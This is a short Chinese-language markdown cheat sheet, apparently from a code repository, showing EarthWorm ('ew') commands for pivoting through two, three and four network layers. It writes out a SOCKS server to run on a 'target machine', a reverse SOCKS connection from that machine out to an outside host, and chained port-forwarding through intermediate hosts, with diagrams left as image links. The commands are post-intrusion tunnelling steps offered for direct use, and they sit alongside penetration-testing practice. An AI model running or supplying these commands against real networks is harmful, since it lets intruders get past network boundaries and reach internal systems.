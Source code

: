 ### 两层网络

##### 本地监听

目标机器  ： ./ew -s ssocksd -l 8888

![image-20210525155259031](./imgs/1.png)

### 三层网络

#### 反向

![image-20210525155641820](.\imgs\2.png)

> #监听本地8888端口转发到1080
>
> ./ew -s rcsocks -l 1080 -e 8888
>
> #反弹到8888端口
>
> ./ew -s rssocks -d 1.1.1.1 -e 8888

#### 正向

![image-20210525155709483](.\imgs\3.png)

> #正向连接9999端口并转发到本地1080端口
>
> ./ew -s lcx_tran -l 1080 -f 2.2.2.3 -g 9999
>
> #本地监听9999端口
>
> ./ew -s ssocksd -l 9999

### 四层网络

![image-20210525155742414](.\imgs\4.png)

> ./ew -s lcx_listen -l 1080 -e 8888
>
> ./ew -s lcx_slave -d 1.1.1.1 -e 8888 -f 2.2.2.3 -g 9999
>
> ./ew -s ssocksd -l 9999